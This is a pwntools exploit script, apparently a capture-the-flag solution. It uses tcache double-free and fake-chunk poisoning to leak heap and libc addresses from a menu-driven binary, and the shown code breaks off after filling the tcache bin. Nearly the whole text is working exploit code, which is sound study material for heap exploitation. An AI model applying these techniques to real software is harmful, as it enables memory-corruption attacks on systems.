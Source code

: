 ```python
def debug(breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(p)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)

def add(content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', content)

def show():
    p.sendlineafter('> ', '2')

def free():
    p.sendlineafter('> ', '3')

context.terminal = ['tmux', 'new-window']

p = start()
if args.GDB:
    debug([])

# ----------- Heap Leak ------------
# Prepare
add('A'*0x3e)

# We do four frees to set the 0x40 tcache bin count to 4
for i in range(4):
    free()

# Leak the fourth chunk's address on the heap
show()

heap_leak = u64(p.recvline().strip('\n').ljust(8, '\x00'))
log.info('Heap leak: ' + hex(heap_leak))

# ----------- Libc Leak ------------
# Empty the 0x40 tcache bin first
add(p64(0) + 'A'*8) # Set FD to null here
add('A'*8) # 0x40 tcache bin now empty
# Note that after the above, the 0x40 tcache bin will have count = 2

# Create four chunks to prep for libc leak
# Make all of them have fake chunks in them with PREV_INUSE bits set
# And make all of them have valid FD pointers as well
for i in range(4):
    add((p64(heap_leak) + p64(0x91)) * 3)

# Double free the last chunk
free() # count = 3
free() # count = 4

# Set FD to one of the fake 0x91 chunks
add(p64(heap_leak + 0x60)) # count = 3
add('A'*8) # count = 2
add('A'*8) # Got a 0x91 chunk, count = 1

# Free 7 times to fill up tcache bin, 8th one goes into unsorted bin
for i in range(8):
    free()

```